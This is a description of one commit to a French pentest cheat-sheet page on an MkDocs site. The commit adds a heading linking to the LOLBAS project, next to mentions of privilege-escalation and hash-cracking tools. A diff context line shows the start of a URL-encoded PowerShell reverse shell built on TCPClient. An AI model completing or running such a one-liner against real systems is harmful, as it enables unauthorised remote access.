

Before and after one commit to NathanEtinzon/CEFIM, an MkDocs documentation site: the page built from docs/PENTEST_CHEAT_SHEET.md, in a window 1280 px wide and 900 px high, scrolled down 5242 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Ajout séquence d'échappement windows

```diff
--- a/docs/PENTEST_CHEAT_SHEET.md
+++ b/docs/PENTEST_CHEAT_SHEET.md
@@ -181,6 +181,9 @@ powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient
 >- [WES-NG](https://github.com/bitsadmin/wesng)
 >- multi/recon/local_exploit_suggester avec une session meterpreter
 
+### Séquences d'échappement
+> **[lolbas](https://lolbas-project.github.io/#)**
+
 ## JohnTheRipper
 
 **Crackage de hash**
```
